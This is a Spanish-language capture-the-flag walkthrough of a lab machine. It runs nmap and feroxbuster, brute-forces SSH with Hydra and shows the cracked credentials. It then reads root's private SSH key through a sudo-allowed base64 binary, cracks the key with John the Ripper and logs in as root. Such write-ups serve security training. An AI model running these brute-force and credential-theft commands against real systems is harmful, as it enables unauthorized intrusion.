 # Fase 1- Tanteo
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/29a7ba70-ed90-4f55-b4fa-fb64df41baee)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp(SSH):** OpenSSH 9.2p1 
2.  **80/tcp(HTTP):** Apache httpd 2.4.57

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Se encontró una pagina llamada default de Apache2 Debian.
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/f4a79d88-e062-4a9b-a66e-d46725389dca)

# Fase 2- Exploración

#### FeroxBuster
```python
301      GET        9l       28w      314c http://192.168.1.11/summary => http://192.168.1.11/summary/
200      GET        1l        3w       31c http://192.168.1.11/summary/summary.html
```
Encontramos el directory listing `summary` y el archivo `summary.html`.

#### summary.html
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/be06a3b1-9801-44f3-816a-26dc6933facc)
Encontramos esto, y literalmente no hay nada mas.

# Fase 3- Explotación

#### Hydra SSH
```python
> hydra 192.168.1.11 -t 64 ssh /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt
```
Le vamos a realizar fuerza bruta al protocolo `ssh` con este comando.

```python
[DATA] attacking ssh://192.168.1.11:22/
[22][ssh] host: 192.168.1.11   login: info   password: qwerty
```
Y lo encontramos.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/cbd884ed-b65c-4f42-91c9-adae1dce4d7b)
Y estamos dentro!.

# Fase 3- Explotación

#### sudo -l
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/60f86ec8-9701-4709-9631-b77ded667d5a)
Despues de hacer el tratamiento de la TTY, vemos que podemos ejecutar el binario `base64` como el usuario `root`.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/75e5821a-8c72-4ef4-a3a7-de104e20e9c9)

Este comando `sudo base64 "/root/.ssh/id_rsa" | base64 --decode` sirve para decodificar el contenido de un archivo que ha sido codificado en base64.

#### rsa
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/b230cb05-09f0-4104-9a28-82c3a28ad6fc)

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/356de977-bb4b-486a-8419-63f45d5829a6)

Se edita el archivo `id_rsa` en el editor `nano`, se convierte en un formato compatible con John the Ripper para posibles ataques de fuerza bruta (`ssh2john id_rsa`), se intenta descifrar la clave privada utilizando una lista de palabras (`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`), se ajustan los permisos del archivo `id_rsa` para mayor seguridad (`chmod 600 id_rsa`), y finalmente se establece una conexión SSH al servidor remoto utilizando la clave privada como identificación (`ssh -i id_rsa root@192.168.1.11`).

